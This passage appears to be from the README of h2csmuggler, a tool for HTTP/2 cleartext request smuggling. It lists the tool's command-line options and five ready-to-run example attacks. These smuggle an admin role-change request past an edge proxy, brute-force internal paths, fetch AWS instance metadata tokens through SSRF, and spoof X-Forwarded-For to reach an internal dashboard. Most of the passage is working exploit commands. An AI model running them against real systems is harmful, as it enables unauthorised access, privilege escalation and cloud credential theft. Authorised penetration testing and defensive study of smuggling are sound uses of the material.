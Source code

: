 ```sh
  --scan-list SCAN_LIST
                        list of URLs for scanning
  --threads THREADS     # of threads (for use with --scan-list)
  --upgrade-only        drop HTTP2-Settings from outgoing Connection header
  -x PROXY, --proxy PROXY
                        proxy server to try to bypass
  -i WORDLIST, --wordlist WORDLIST
                        list of paths to bruteforce
  -X REQUEST, --request REQUEST
                        smuggled verb
  -d DATA, --data DATA  smuggled data
  -H HEADER, --header HEADER
                        smuggled headers
  -m MAX_TIME, --max-time MAX_TIME
                        socket timeout in seconds (type: float; default 10)
  -t, --test            test a single proxy server
  -v, --verbose
```
### Examples
1\. Scanning a list of URLs (e.g., `https://example.com:443/api/`, `https://example.com:443/payments`, `https://sub.example.com:443/`) to identify `proxy_pass` endpoints that are susceptible to smuggling (be careful with thread counts when testing a single server):

```
./h2csmuggler.py --scan-list urls.txt --threads 5
```

2\. Sending a smuggled POST request past `https://edgeserver` to an internal endpoint:
```
./h2csmuggler.py -x https://edgeserver -X POST -d '{"user":128457 "role": "admin"}' -H "Content-Type: application/json" -H "X-SYSTEM-USER: true" http://backend/api/internal/user/permissions
```

3\. Brute-forcing internal endpoints (using HTTP/2 multiplexing), where `dirs.txt` represents a list of paths (e.g., `/api/`, `/admin/`).
```
/h2csmuggler.py -x https://edgeserver -i dirs.txt http://localhost/
```

4\. Exploiting `Host` header SSRF over h2c smuggling (e.g., AWS metadata IMDSv2):

Retrieving the token:
```
./h2csmuggler.py -x https://edgeserver -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" http://169.254.169.254/latest/api/token`
```

Transmitting the token:
```
./h2csmuggler.py -x https://edgeserver -H "x-aws-ec2-metadata-token: TOKEN" http://169.254.169.254/latest/meta-data/
```
5\. Spoofing an IP address with the `X-Forwarded-For` header to access an internal dashboard:
```
./h2csmuggler.py -x https://edgeserver -H "X-Forwarded-For: 127.0.0.1" -H "X-Real-IP: 172.16.0.1" http://backend/system/dashboard
```
### FAQ
